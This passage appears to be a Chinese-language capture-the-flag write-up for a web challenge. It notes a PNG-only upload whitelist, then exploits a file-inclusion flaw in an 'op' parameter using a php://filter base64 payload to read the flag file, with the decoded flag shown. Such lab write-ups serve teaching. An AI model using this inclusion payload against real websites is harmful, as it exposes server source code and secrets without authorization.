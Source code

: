 尝试上传`php`文件时回显`Sorry, only PNG files are allowed.`。

判断为服务端白名单验证，这里参考`upload-labs`题解思路进行测试。

![](/assets/images/move/1551601844340-2598aaa1-71ac-4ae1-88b4-b023e390a8e7.png)

测试无果,发现`url`的`op`参数首页为`op=home`上传页面为`op=upload`，猜测存在文件包含漏洞~

`op=1`回显：`Error no such page`。

> 参考: [php 伪协议](https://lorexxar.cn/2016/09/14/php-wei/)

使用php伪协议尝试传参：`?op=php://filter/read=convert.base64-encode/resource=flag`，回显`PD9waHAgCiRmbGFnPSJmbGFne2UwMGY4OTMxMDM3Y2JkYjI1ZjZiMWQ4MmRmZTU1NTJmfSI7IAo/Pgo=`。


Base64 decode：

```php
<?php 
$flag="flag{e00f8931037cbdb25f6b1d82dfe5552f}"; 
?>
```

## web4 万能密码
